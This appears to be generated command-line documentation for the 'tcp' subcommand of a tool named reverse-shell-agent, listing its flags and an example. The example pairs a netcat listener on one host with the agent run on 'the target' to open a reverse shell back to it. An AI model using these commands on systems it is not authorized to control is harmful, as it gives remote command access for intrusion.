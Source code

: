 ## reverse-shell-agent tcp

Agent that connects to a remove tcp endpoints and listen for commands

### Synopsis

Agent that connects to a remove tcp endpoints and listen for commands

```
reverse-shell-agent tcp [flags]
```

### Examples

```
# On the client (1.2.3.4)
$ nc -v -l -p 7777

# On the target
$ reverse-shell-agent tcp --host=1.2.3.4 --port=7777

```

### Options

```
  -h, --help          help for tcp
      --host string   remote host to connect to (default "0.0.0.0")
      --port int32    remote port to connect to (default 8080)
```

### Options inherited from parent commands

```
  -v, --verbose int   Be verbose on log output
```

### SEE ALSO

* [reverse-shell-agent](reverse-shell-agent.md)	 - Agents listening for remote commands

